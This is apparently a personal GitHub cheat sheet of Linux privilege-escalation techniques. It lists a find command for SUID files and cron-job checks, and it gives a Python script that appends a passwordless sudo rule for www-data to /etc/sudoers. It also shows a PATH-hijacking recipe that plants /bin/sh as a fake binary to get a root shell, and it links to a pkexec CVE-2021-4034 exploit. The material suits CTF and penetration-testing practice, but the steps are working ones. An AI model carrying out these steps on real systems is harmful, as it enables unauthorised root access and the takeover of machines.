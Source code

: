 ### PRIVESC notes

### suid bits
- Finding files with suid bit

      find / -perm -u=s -type f 2</dev/null

### CRON JOBS
  <a href="https://vk9-sec.com/exploiting-the-cron-jobs-misconfigurations-privilege-escalation/">Link to MORE ON CRON JOBS</a>
- Check cronjobs with

       cat /etc/crontab
- Check if the cron job is running with

      service cron status
  
- Script to run if you can write a cronjob script

       import os 
       import sys
       try:
          print("on it")
          os.system("echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
       except:
            print("Didn't work")
            sys.exit()

### PRIVESC WITH PATH VARIABLE MANIPULATION
- If a binary does not detail the path to run another binary e.g not using (/usr/bin/curl) {stating the path}

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f0562606-ec66-47bb-a419-9293ca0a62f1)

- You can manipulate the path and get a root shell.It should be noted the binary you are exploiting must have a suidbit

      cd /tmp
      echo "/bin/sh" > <binary you eant to attack>
      chmod 700 curl
      export PATH=/tmp:$PATH

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cf277f1d-1664-4ea8-a1f0-1461101c5006)
   
### Privesc with pkexec(suidbit) ver 0.105(CVE-2021-4034)
   Use this <a href="https://github.com/arthepsy/CVE-2021-4034">exploit</a>
   <a href="https://www.exploit-db.com/exploits/50689">Exploit db's link</a>
